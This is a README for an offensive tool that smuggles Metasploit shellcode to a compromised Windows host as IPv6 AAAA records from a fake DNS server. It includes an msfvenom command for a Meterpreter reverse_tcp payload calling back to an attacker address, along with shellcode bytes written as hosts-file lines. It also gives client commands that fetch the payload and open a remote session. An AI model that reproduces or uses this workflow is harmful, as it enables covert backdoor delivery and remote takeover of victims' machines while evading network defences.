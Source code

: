 # NativePayload_IP6DNS
Published by Damon Mohammadbagher
this tool works like NativePayload_DNS , but in this case this tool working by IPv6 Address and AAAA records for Transferring Backdoor payloads by DNS Traffic ;)


note : this code supported only 990 bytes (99 lines IPV6 ADDRESS foreach 10 bytes) for Payloads , for changing this value you should change source code

note : {fe80:1111:}{fc48:83e4:f0e8:cc00:0000}{:ae0} {test.domain.com}

note : 10 bytes Payload ==> {fc48:83e4:f0e8:cc00:0000} and {:ae0} is payload counter or ID 


syntax 1 : NativePayload_IP6DNS.exe null "payload string"

description 1 : Making Hosts files for Linux Dns Server Like Dnsmasq or dnsspoof tools , copy output for this command to DNS Hosts file in linux
you can use Msfvenom tool like example and copy your payload in "payload string"

Example : payload string ==> fc4883e4f0e8cc000000415141505251564831d2ae1

Example: msfvenum --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.113 -f c > /dnsmasq.hosts

after this command you have something like these lines in your Hosts file :

Example : /etc/dnsmasq.hosts or /etc/hosts "depend on your configuration for dnsmasq or dnsspoof tools 

fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com

fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com

fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com

fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com

fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com

fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com

.

.

.

fe80:1111:85f6:75b4:41ff:e758:6a00:ae49 test.domain.com

fe80:1111:5949:c7c2:f0b5:a256:ffd5:ae50 test.domain.com





syntax 2 : NativePayload_IP6DNS.exe Payload

description 2 : this switch is for making sample payload for your hosts file


syntax 3 : NativePayload_IP6DNS.exe "FQDN" "Fake_DNS_Server"

description 3 : after making your payloads and copy that in your fake_DNS_Server by dnsmasq or dnsspoof and starting fakeDNSServer , now you can start transferring your Payloads From FakeDNSServer to your Infected system by NativePayload_IP6DNS.exe tool

Example : NativePayload_IP6DNS.exe  test.domain.com  192.168.1.113

note : in this case 192.168.1.113 is your FakeDNSServer also this is your Metasploit: Meterpreter/Listener.

you should have meterpreter session after 1 DNS Response from FakeDNSserver to Client (Backdoor system)



